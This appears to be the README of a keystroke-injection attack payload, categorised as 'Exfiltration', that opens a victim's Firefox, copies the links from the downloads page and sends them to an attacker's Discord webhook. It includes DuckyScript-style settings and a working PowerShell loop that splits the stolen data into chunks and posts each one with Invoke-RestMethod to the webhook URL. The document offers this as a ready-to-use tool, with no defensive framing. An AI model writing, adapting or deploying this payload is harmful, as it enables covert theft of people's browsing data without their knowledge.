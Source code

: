 # Exports all the links of the downloads

This script can be used to export all the links of the latest downloads made through Firefox.

**Category**: Exfiltration


## Description

This script can be used to export all the links of the latest downloads made through Firefox.

This script open the Firefox app, then go to downloads page and copy all, then open a PowerShell and put all the download link in a var named $DOWNLOADS, then use a Discord Webhook to exfiltrate it.


## Dependencies

* Firefox must be installed
* Internet connection


## Settings

- You must define your Discord webhook if you want to use this method for the exfiltration

    `DEFINE DISCORD_WEBHOOK example`

- This delay depends on the number of links

    `DELAY 10000`

- This algorithm is used to avoid the size limit imposed by Invoke-RestMethod on the payload length

    ```
    $len = $DOWNLOADS.Length
        $MAX_LEN = 1900

        $ITERATIONS = [math]::Ceiling($len / $MAX_LEN)

        for ($i = 0; $i -lt $ITERATIONS; $i++) {
            $init = $i * $MAX_LEN
            $end = [math]::Min(($i + 1) * $MAX_LEN, $len)
            
            $sub = $DOWNLOADS.Substring($init, $end - $init)
            $Payload = @{content = $sub} | ConvertTo-Json

            Invoke-RestMethod -Uri $WebhookUrl -Method Post -Body $Payload -ContentType 'application/json'
        }
    ```